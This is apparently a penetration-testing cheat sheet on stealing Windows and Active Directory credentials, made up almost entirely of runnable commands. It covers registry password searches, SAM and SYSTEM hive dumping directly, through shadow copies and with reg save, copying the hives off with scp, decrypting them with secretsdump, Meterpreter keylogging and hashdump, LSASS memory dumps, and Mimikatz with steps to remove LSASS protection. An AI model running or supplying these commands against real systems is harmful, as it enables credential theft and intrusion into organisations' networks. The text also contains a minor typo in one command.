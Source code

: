 Enterprise Vaults

Active Directory
- Users' description
- Group Policy SYSVOL
- NTDS
- AD Attacks

Network Sniffing

Registry
- `reg query HKLM /f password /t REG_SZ /s`
- `reg query HKCU /f password /t REG_SZ /s`


Years ago you could find clear-text password in the GPP, so give it a shot. If it’s a new enviorments it won’t probably work tho.


### Windows Credentials

- Keystrokes (keyscan_start / keyscan_stop)
- `copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\`
- `meterpreter > hashdump`

Shadow Copy Service
1. `wmic shadowcopy call create Volume='C:\'`
2. `vssadmin list shadows`
3. `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam`
4. `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system`

Registry Hives
1. `reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg`
2. `reg save HKLM\system C:\users\Administrator\Desktop\system-reg`

Now, you can decrypt
- copy the files with `scp <username>@<remoteHost>:/remote/dir/file.txt /local/dir/`
- `impacket-secretsdump -sam /tmp/sam-reg -system /tmp/system-reg LOCAL`


### Dump LSASS

GUI
1. Open Task Manager
2. Search for `lsass.exe` > right click "Create dump file"
3. `copy C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP C:\Tools\Mimikatz\lsass.DMP`

Mimikatz
1. `privilege::debug`
2. `sekurlsa::logonpasswords`

Protected LSASS
1. `privielege::debug`
2. `!+`
3. `!processprotect /process:lsass.exe /remove`
4. `sekurlsa::logonpasswords`
   
